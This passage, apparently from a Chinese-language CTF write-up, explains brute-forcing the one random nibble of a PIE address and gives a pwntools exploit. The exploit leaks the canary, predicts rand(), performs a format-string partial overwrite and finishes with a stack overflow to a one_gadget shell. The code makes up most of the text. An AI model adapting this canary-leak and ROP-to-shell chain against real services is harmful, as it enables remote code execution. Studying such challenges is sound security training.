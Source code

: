 

要修改成的地址
![image-20220411121637907](/upload/img/image-20220411121637907.png)



可以发现，这俩并不凑巧相同。那控制后四位（即两字节）？

**控制后四位的话，我们确实可以定死后三位，但是倒数第四位由于PIE的原因，它是随机的**，这条路行不通？

经过我尝试了许多别的方法，无论如何也都走不通，最后我又拐回来想这条路，突然意识到一件事，只有仅仅是倒数第四位随机而已，**如果爆破呢？我们就随便蒙一个倒数第四位，正确的概率是1/16**(已经不低了)(意思就是说每次PIE，使基址倒数第四位是随机的（后三位地址是固定的），我们可以蒙一个数，然后去运行程序，只要有一次运行的程序基址倒数第四位是我们蒙的数字，就说明我们此时爆破成功），此时就可以顺利返回到one_gadget的地址了。

## exp

```python
#coding:utf-8
from pwn import *
from ctypes import *
e=ELF('./a')
lib=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
def pwn():
    context(arch='amd64',os='linux',log_level='debug')
    #p=process('./a')
    #gdb.attach(p, 'b * $rebase(0x1435)\nc')

    libc.srand(0x1111111111111111)
    payload=0x109*'\x11'
    p.send(payload)
    p.recvuntil('\x11'*0x109)
    canary=u64(p.recv(7).rjust(8,'\x00'))
    leak_addr=u64(p.recv(6).ljust(8,'\x00'))
    print(hex(canary))
    print(hex(leak_addr))
    for i in range(100):
        v2=libc.rand()%3
        if v2==0:
            v3=1
        if v2==1:
            v3=2
        if v2==2:
            v3=0
        p.recvuntil(': \n')
        p.send(str(v3))
        
        
    print('leak_addr')
    payload='%42178c%9$hn'+'aaaa'+'%27$p'+'aaa'+p64(leak_addr-520)
    #42178就是十六进制的a4c2,我赌倒数第四位是a   ->.->
    p.send(payload)
    sleep(0.2)
    p.recvuntil('\x78')
    atoi_addr=int(p.recv(12),16)-16
    libc_base=atoi_addr-lib.sym['atoi']
    print('libc_base')
    print(hex(libc_base))
    sys_addr=lib.symbols['system']+libc_base
    bin_sh_addr=lib.search('/bin/sh').next()+libc_base
    payload2=0x108*'a'+p64(canary)+'b'*0x18+p64(0x4f302 +libc_base)
    p.send(payload2)
    sleep(0.2)
```